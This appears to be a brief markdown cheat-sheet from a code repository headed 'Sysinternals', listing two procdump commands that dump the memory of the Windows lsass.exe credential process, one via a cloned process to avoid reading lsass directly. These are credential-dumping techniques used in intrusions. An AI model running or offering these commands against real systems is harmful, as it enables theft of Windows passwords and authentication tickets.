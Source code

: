 # Sysinternals

Simple summary of some sysinternals.

## Procdump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
